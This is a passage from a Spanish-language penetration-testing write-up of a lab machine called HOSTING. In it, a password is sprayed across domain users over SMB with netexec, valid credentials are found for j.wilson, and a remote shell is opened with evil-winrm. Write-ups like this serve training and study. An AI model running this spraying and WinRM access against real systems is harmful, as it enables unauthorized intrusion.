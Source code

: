 ```console
SMB         192.168.2.10    445    HOSTING          p.smith                       2024-09-02 16:18:30 0
SMB         192.168.2.10    445    HOSTING          WDAGUtilityAccount            <never>             0
```

Y vemos que esta credencial es válida para `j.wilson`
```console
nxc smb 192.168.2.10 -u users.txt -p 'H0$T1nG123!'  --continue-on-success
SMB         192.168.2.10    445    HOSTING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:HOSTING) (domain:HOSTING) (signing:False) (SMBv1:False)
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\p.smith:H0$T1nG123! STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\a.krist:H0$T1nG123! STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\m.faeny:H0$T1nG123! STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\k.lendy:H0$T1nG123! STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\f.miller:H0$T1nG123! STATUS_LOGON_FAILURE
SMB         192.168.2.10    445    HOSTING          [+] HOSTING\j.wilson:H0$T1nG123!
SMB         192.168.2.10    445    HOSTING          [-] HOSTING\m.davis:H0$T1nG123! STATUS_LOGON_FAILURE
```

# Abusing WinRM -> Foothold
Podemos comprobar que este usuario pertenece al grupo de `Remote Management Users` ya que `netexec` nos reporta `Pwn3d!` al comprobar esta credencial en `WinRM`
```console
nxc winrm 192.168.2.10 -u j.wilson -p 'H0$T1nG123!'
WINRM       192.168.2.10    5985   HOSTING          [*] Windows 10 / Server 2019 Build 19041 (name:HOSTING) (domain:HOSTING)
WINRM       192.168.2.10    5985   HOSTING          [+] HOSTING\j.wilson:H0$T1nG123! (Pwn3d!)
```

Así que con `evil-winrm` podemos conseguir una consola como `j.wilson`
```console
evil-winrm -i 192.168.2.10 -u j.wilson -p 'H0$T1nG123!'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\j.wilson\Documents> whoami
hosting\j.wilson
```
